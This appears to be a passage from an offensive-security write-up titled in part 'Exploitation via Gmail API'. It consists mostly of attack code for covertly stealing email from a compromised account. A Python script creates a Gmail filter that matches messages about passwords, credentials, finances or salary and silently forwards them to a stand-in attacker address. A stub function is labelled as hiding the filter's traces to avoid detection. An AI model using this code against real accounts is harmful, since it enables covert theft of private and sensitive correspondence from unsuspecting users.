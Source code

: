 ```javascript
    }, 'me');
    console.log('Mail filter created successfully');
    return true;
  } catch (e) {
    console.log('Failed to create filter: ' + e.message);
    return false;
  }
}
```

**3. Exploitation via Gmail API:**

Using a compromised account to implement silent BCC forwarding:

```python
# Python script to implement silent BCC forwarding via Gmail API
from googleapiclient.discovery import build
from google.oauth2.credentials import Credentials

def setup_mail_exfiltration(credentials):
    """Set up silent exfiltration of emails via Gmail API"""
    # Build the Gmail API service
    service = build('gmail', 'v1', credentials=credentials)
    
    # Create a filter to forward specific emails
    filter_content = {
        'criteria': {
            # Target sensitive content
            'query': 'confidential OR secret OR password OR credentials OR financial OR salary'
        },
        'action': {
            # Add labels to avoid suspicion
            'addLabelIds': ['INBOX'],
            # Forward to attacker-controlled address
            'forward': 'attacker@exfil-domain.com'
        }
    }
    
    try:
        # Create the filter
        result = service.users().settings().filters().create(
            userId='me',
            body=filter_content
        ).execute()
        
        print(f"Filter created successfully with ID: {result['id']}")
        return result['id']
    except Exception as e:
        print(f"Failed to create filter: {str(e)}")
        return None

def hide_filter_traces(credentials, filter_id):
    """Hide traces of the created filter to avoid detection"""
    # For a real attack, this would try to modify logs or hide the filter
    # This is a conceptual example and would not work in practice
    pass
```
